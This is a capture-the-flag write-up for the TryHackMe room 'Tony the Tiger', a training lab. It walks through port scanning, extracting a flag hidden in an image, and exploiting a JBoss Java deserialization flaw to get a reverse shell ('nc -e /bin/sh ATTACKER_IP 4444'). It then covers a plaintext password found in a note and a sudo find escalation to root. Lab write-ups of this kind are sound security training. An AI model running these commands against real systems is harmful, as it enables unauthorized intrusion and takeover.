|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |    Easy    |  |  10.10.104.15 |  | [Tony the Tiger](https://tryhackme.com/room/tonythetiger) |  |

---

**The prompts for this room has been rewritten in this write-up for simplicity sake.**

---

### [ Reconnaissance ]

Let's start things off with a basic `nmap` scan (top 1000 ports) on the target machine.

```
sudo nmap -sC -sV -vv -T4 10.10.104.15
```

**Results:**

```
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:97:8c:b9:74:d0:f3:9e:fe:f3:a5:ea:f8:a9:b5:7a (DSA)
| ssh-dss
[REDACTED]
|   2048 33:a4:7b:91:38:58:50:30:89:2d:e4:57:bb:07:bb:2f (RSA)
| ssh-rsa 
[REDACTED]
|   256 21:01:8b:37:f5:1e:2b:c5:57:f1:b0:42:b7:32:ab:ea (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 f6:36:07:3c:3b:3d:71:30:c4:cd:2a:13:00:b5:25:ae (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDUpCopvQzPXtEJ8L/lxYpJzOrcLLkU67fx71+Izsx6U
80/tcp   open  http        syn-ack ttl 61 Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Hugo 0.66.0
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Tony&#39;s Blog
1090/tcp open  java-rmi    syn-ack ttl 61 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1091/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1098/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1099/tcp open  java-object syn-ack ttl 61 Java Object Serialization
| fingerprint-strings: 
[REDACTED]
4446/tcp open  java-object syn-ack ttl 61 Java Object Serialization
5500/tcp open  hotline?    syn-ack ttl 61
| fingerprint-strings: 
[REDACTED]
8009/tcp open  ajp13       syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp open  http        syn-ack ttl 61 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss AS
8083/tcp open  http        syn-ack ttl 61 JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
```

There are quite a number of ports open, but the ones I'm especially interested in are port **22 (SSH)**, port **80 (HTTP)** and port **8080 (HTTP)**.

The HTTP web server on port **80** contains a blog page:



The HTTP web server on port **8080** contains a [JBoss](https://www.redhat.com/en/technologies/jboss-middleware/application-platform) application server:



---

*JBoss application server is an open-source platform, developed by Red Hat, used for implementing Java applications and a wide variety of other software applications.* 

---

Since the room is all about **Java serialization**, this JBoss server will probably be quite important later on.

---

### [ Find Tony's Flag! ]

Let's focus on Tony's blog first.

The first thing I did was to look for any low-hanging fruit, such as looking at the source code of the page for comments and checking the robots.txt file. There was nothing of interest there.

Next, if we look at the post titled '**My First Post**', we find something interesting:



Looks like there might be embedded data within the images on the site. Looking around, I managed to find 2 images. I downloaded them onto my machine and tried to see if I could extract any data from them.

In the end, the image that had embedded data was this:


All I had to do was run `strings` on it and we get Tony's flag within the output:



---

### [ Exploit! ]

The room tells us to download a zip file which contains the following resources:



**exploit.py** uses the **ysoserial.jar** file in the file to launch a remote code execution attack. It abuses a Java deserialization vulnerability that exists for certain versions of JBoss.

---

**Explanation of vulnerability:**

*It was found that the Apache commons-collections library permitted code execution when deserializing objects involving a specially constructed chain of classes. A remote attacker could use this flaw to execute arbitrary code with the permissions of the application using the commons-collections library.*

Source: https://www.rapid7.com/db/vulnerabilities/http-jboss-cve-2015-7501/

---

We can use this exploit to launch a reverse shell on the target machine:

```
python2 exploit.py 10.10.104.15:8080 'nc -e /bin/sh ATTACKER_IP 4444'
```

With a netcat listener up and running, I ran the command above:



And we're in!

---

### [ Find User JBoss' flag! ]

Looking around the machine, I found out that there are 3 users:



Visiting **jboss'** home directory, there is a hidden text file called **.jboss.txt**:



This file contains **JBoss' flag**:



---

### [ Escalation! ]

There is also another text file called **note**:



Nice, we have jboss' password! 

> likeaboss

Let's log into his account via SSH:



If we look at jboss' **sudo privileges**:



We see that jboss can run the `find` command as root! [GTFOBins](https://gtfobins.github.io/gtfobins/find/) provides the following method to exploit this:



All we have to do is run the following command:

```
sudo find . -exec /bin/sh \; -quit
```



And just like that, we've opened a root shell.

The **root flag** can then be found in /root:



It's base64-encoded, so let's decode it:



We get what seems to be a MD5 hash. We can try cracking it using my go-to online [hash cracker](https://hashes.com/en/decrypt/hash):



And we got the root flag!
